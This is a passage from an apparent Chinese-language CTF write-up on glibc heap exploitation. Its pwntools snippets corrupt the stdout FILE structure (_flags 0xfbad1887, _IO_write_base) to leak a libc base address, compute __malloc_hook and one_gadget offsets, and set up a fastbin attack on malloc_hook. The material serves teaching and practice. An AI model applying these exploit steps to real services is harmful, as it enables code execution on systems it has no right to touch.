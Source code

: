 [![](assets/1701612416-af2ed5fa4ef5f4847cf69a28e1ba8faa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170313-721ba978-14c9-1.png)  
这个地址的后三位是固定的，倒数第四位是随机的，但是我们只能写两字节因此第四位必须要去爆破，在调试的时候关闭 ASLR 就无需爆破了。

```plain
add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')
```

然后 fake\_chunk 申请到 stdout 结构体上方后，我们去改变结构体的\_flags 字段和\_IO\_write\_base 字段 (偏移一定) 等再次调用 puts 函数的时候，我们就可以获取 libc 基地址了（需要注意的是将\_flags 字段改成 0xfbad1880，之后的 puts 都不会再加\\n了，因此要处理一下接收部分。不过用 0xfbad1887puts 都会再加\\n）

```plain
leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc_base=leak_libc-0x3c5600
leak('libc_base ',libc_base)
malloc_hook=libc_base+libc.symbols['__malloc_hook']
leak('malloc_hook ',malloc_hook)
realloc=libc_base+libc.symbols['realloc']
ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[1]
leak('og ',og)
```

泄露完 libc\_base 后，直接打 fastbin attack 就行了

```plain
add(0x60,10,'a') 
delete(10)
edit(10,p64(malloc_hook-0x23))
```

[![](assets/1701612416-0ded8f0aa45e12240cb65c37cacc99d6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627170349-87bc1628-14c9-1.png)
